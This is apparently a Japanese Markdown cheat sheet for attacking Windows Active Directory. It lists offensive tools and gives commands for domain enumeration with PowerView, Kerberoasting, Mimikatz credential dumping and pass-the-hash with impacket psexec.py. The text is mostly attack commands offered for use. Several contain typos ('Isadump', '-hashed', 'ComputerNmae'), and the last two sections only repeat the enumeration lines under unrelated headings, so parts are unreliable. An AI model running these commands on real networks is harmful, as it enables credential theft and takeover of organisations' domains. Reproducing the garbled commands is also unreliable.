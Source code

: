 # ***<span style="color:blue;">AD攻略に役立つツール</span>***
- BloodHound(SharpHound)
- PowerShell Empire(Covenant)
- PowerView
- Rubeus
- Evil-winrm
- Responder
- CrackMapExec
- Mimikatz
# ***<span style="color:blue;">AD環境の列挙</span>***
- ユーザーやグループの列挙   
```
C:¥>net user /domain
C:¥>net group /domain
PS:¥>Import-Module .¥PowerView.ps1
PS:¥>Get-DomainUser
PS:¥>Get-DomainGroup
PS:¥>Get-DomainGroupMember "Domain Admins"
PS:¥>Get-DomainComputer
```   
- 現在ログイン中やセッションを保持しているユーザの列挙   
```
PS:¥>Get-NetLoggedon-ComputerName <computer>
PS:¥>Get-NetSession-ComputerNmae <computer>
```
# ***<span style="color:blue;">kerberoast</span>***
- TGSからユーザのパスワードハッシュを摂取して解析   
-- ハッシュはクラックする必要がある   
- 高権限のアカウントを狙う   
-- Domain Adminsのメンバーになっている   
-- 他のマシンにRDPできそう   
- Invoke-Kerberoast   
-- kerveroastの面倒な作業を自動でやってくれる   
```
PS:¥>Invoke-Kerberoast
```
# ***<span style="color:blue;">Pass The Hash</span>***
- 平文のパスワードがわからなくてもhashで認証可能   
-- IPアドレスで認証する場合   
- Mimikatzでマシンにキャッシュされているhashをダンプ   
```
# sekurlsa::logonpasswords
# Isadump::sam
```   
- Invoke-MimikatzというPowerShwllスクリプトもある
```
PS:¥>Invoke-Mimikatz-Command '"lsadump::sam"'
```
- 悪用にはpsexe.py(impacket）を用いる
```
$ python3 psexec.py -hashed<hash>:<hash><user>@<ip>
```
# ***<span style="color:blue;">NTLM認証</span>***
- ユーザやグループの列挙
```
C:¥>net user /domain
C:¥>net group /domain
```
# ***<span style="color:blue;">ケルベロス認証</span>***
- ユーザやグループの列挙   
```
C:¥>net user /domain
C:¥>net group /domain